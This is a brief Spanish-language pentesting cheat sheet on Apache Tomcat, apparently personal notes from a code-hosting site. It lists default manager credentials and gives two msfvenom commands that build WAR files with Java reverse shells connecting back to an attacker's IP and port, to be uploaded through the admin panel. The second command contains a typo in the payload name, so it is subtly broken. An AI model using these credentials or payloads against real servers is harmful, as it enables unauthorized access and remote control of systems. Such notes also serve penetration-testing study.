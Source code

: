 # Contraseñas por defecto Tomcat
- admin:admin
- tomcat:tomcat
- admin:
- admin:s3cr3t
- tomcat:s3cr3t
- admin:tomcat

# Reverse Shell File Upload
Si conseguimos acceso al panel de administración, podemos usar la vulnerabilidad de File Upload para subir una reverse Shell.

Tenemos dos opciones de Payload para subir en un archivo WAR.
```bash
msfvenom -p java/shell_reverse_tcp LHOST=<"IP Atancante"> LPORT=<"Puerto de conexion a la maquina atacante"> -f war -o pwned.war
```

```bash
msfvenom -p java/jsp_shell_severse_tcp LHOST=<"IP Atancante"> LPORT=<"Puerto de conexion a la maquina atacante"> -f war -o pwned.war
```
